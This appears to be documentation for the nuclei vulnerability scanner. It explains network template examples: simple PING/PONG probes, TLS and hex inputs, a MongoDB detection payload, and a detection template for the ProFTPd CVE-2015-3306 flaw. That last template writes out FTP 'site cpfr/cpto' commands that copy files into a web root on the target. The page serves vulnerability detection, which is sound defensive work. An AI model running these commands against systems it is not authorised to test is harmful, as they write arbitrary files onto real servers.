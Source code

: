 ### Basic Network Request

This template connects to a network service, sends some data and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`.

```yaml
id: basic-network-request

info:
  name: Basic Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

### TLS Network Request

Similar to the above template, but the connection to the service is done with TLS enabled.

```yaml
id: basic-tls-network-request

info:
  name: Basic TLS Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "tls://{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

### Hex Input Request

This template connects to a network service, sends some data encoded in hexadecimal to the server and reads 4 bytes from the response. Matchers are run to identify valid response, which in this case is `PONG`. The match words here are encoded in Hexadecimal, using `encoding: hex` option of matchers.

```yaml
id: hex-network-request

info:
  name: Hex Input Network Request
  author: pdteam
  severity: info

network:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "50494e47"
        type: hex
      - data: "\r\n"
        
    read-size: 4
    matchers:
      - type: word
        part: data
        encoding: hex
        words:
          - "504f4e47"
```

### Input Expressions

Inputs specified in network also support DSL Helper Expressions, so you can create your own complex inputs using variety of nuclei helper functions. The below template is an example of using `hex_decode` function to send decoded input over wire.

```yaml
id: input-expressions-mongodb-detect

info:
  name: Input Expression MongoDB Detection
  author: pd-team
  severity: info
  reference: https://github.com/orleven/Tentacle

network:
  - inputs:
      - data: "{{hex_decode('3a000000a741000000000000d40700000000000061646d696e2e24636d640000000000ffffffff130000001069736d6173746572000100000000')}}"
    host:
      - "{{Hostname}}"
    read-size: 2048
    matchers:
      - type: word
        words:
          - "logicalSessionTimeout"
          - "localTime"
```

### Multi-Step Requests

This last example is an RCE in proFTPd which, if vulnerable, allows placing arbitrary files in any directory on the server. The detection process involves a random string on each nuclei run using `{{randstr}}`, and sending multiple lines of FTP input to the vulnerable server. At the end, a successful match is detected with the presence of `Copy successful` in the response.

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

network:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 
```